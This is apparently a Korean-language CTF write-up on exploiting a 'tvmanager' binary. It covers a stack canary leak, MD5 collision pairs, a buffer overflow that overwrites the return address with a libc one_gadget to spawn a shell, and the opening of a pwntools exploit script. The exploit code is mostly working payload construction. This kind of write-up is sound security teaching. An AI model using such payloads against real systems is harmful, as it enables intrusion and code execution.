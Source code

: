 이 상태로 `list`를 호출하면 `movie_ptr->name`이 canary의 주소를 가리키므로 canary leak이 가능하다.
``` bash
[*] canary : 0x72657400
```
이제 필요한 모든 정보를 가지고 있으므로 eip control이 가능하고, 실행시킬 곳은 one_gadget을 통해서 쓸만한 주소로 설정했다.

그러면 최종 payload는 다음과 같다.
``` python
    # md5 collision - fe6c446ee3a831ee010f33ac9c1b602c
    c1 = bytes.fromhex('3775C1F1C4A75AE79CE0DE7A5B10802602ABD939C96C5F0212C27FDACD0DA3B08CEDFAF3E1A3FDB4EF09E7FBB1C3991DCD91C845E66EFD3DC7BB61523EF4E03849118569EBCC179C934F40EB3302AD20A4092DFB15FA201DD1DB17CDDD29591E39899EF679469FE68B85C5EFDE424F46C278759D8B65F450EA21C5591862FF7B')
    c2 = bytes.fromhex('3775C1F1C4A75AE79CE0DE7A5B10802602ABD9B9C96C5F0212C27FDACD0DA3B08CEDFAF3E1A3FDB4EF09E7FBB1439A1DCD91C845E66EFD3DC7BB61D23EF4E03849118569EBCC179C934F40EB3302AD20A4092D7B15FA201DD1DB17CDDD29591E39899EF679469FE68B85C5EFDEC24E46C278759D8B65F450EA21C5D91862FF7B')

    # eip control
    register(s, c1, 1, 0x4, b"FFFF")                # index 6
    payload = b"G" * 0x400              # buf
    payload += p32(0)                   # size
    payload += p32(0)                   # contents
    payload += p32(canary)              # canary
    payload += b"H" * 0xc               # dummy
    payload += p32(libc + 0x5fbd5)      # return
    register(s, c2, 1, len(payload), payload)       # index 7

    broadcast(s, 6, 0, 1, 7777)
```
여기에서도 마찬가지로 새로운 충돌쌍이 필요하고 leak한 libc 주소에 one shot 가젯의 offset을 더해서 `return address`에 써주면 쉘을 획득할 수 있다.

## 0x03. Payload
``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
from time import sleep
import sys, os, socket, threading

DEBUG = True
BINARY = "tvmanager"
LIBRARY = "libc-2.23.so"

code_base = 0x56555000
movie_4100 = 0x56559100
src_4120 = 0x56559120
bp = {
    'read_of_main' : code_base + 0x134B,
    'scanf_of_main' : code_base + 0x13F7,
    'load_movies' : code_base + 0x145F,
    'list' : code_base + 0x1821,
    'register' : code_base + 0x18B0,
    'md5_of_register' : code_base + 0x1BB1,
    'strlen_of_register' : code_base + 0x1B17,
    'broadcast' : code_base + 0x1DA7,
    'malloc_of_broadcast' : code_base + 0x1F1F,
    'end_of_broadcast' : code_base + 0x1FAC,
    'sizecheck_of_broadcast' : code_base + 0x1F86,
}
gs = f'''
b *{bp['scanf_of_main']}
b *{bp["end_of_broadcast"]}
continue
'''
context.terminal = ['tmux', 'splitw', '-hf']
```